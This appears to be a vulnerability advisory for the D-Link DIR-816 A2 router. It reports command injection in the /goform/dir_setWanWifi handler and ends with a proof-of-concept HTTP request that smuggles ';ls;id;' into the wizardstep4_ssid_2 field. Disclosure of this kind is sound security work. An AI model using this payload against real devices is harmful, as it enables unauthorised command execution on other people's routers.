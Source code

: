 # Information



**Vendor of the products:**   D-Link

**Vendor's website:** [D-Link | Welcome](https://www.dlink.com.cn/)

**Reported by:** Chen Bo ([2804894416@qq.com](mailto:2804894416@qq.com))

**Affected products:** DIR-816 A2

**Affected firmware version:** <= v1.10CNB05

**Firmware download address:** https://www.dlink.com.cn/techsupport/download.ashx?file=6495



# Overview

The router D-Link DIR-816 A2 1.10B05 has a serious service parameter injection vulnerability. The command execution can be achieved through the `/goform/dir_setWanWifi` route, and even serious consequences can be caused. Attackers can complete the service parameter injection attack through key control fields such as `connecttype` and `wizardstep4_ssid_2`

# Vulnerability details

The handler function `dir_setWanWifi ` is registered in the `sub_42DA54` function.

![image-20250408223516093](2/image-20250408223516093.png)

Branch judgment is performed here

![image-20250408174437436](2/image-20250408174437436.png)

Enter the branch again through judgment

![image-20250408174653268](2/image-20250408174653268.png)

The following command injection is performed

![image-20250408174613988](2/image-20250408174613988.png)

# POC

```
POST /goform/dir_setWanWifi HTTP/1.1
Host: 192.168.102.145
Content-Length: 85
Cache-Control: max-age=0
Origin: http://192.168.102.145
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.102.145/d_wan.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: curShow=
Connection: close

connecttype=DHCP&hostname=127.0.0.1&statuscheckpppoeuser=0&wizardstep4_ssid_2=;ls;id;
```

![image-20250408174800105](2/image-20250408174800105.png)


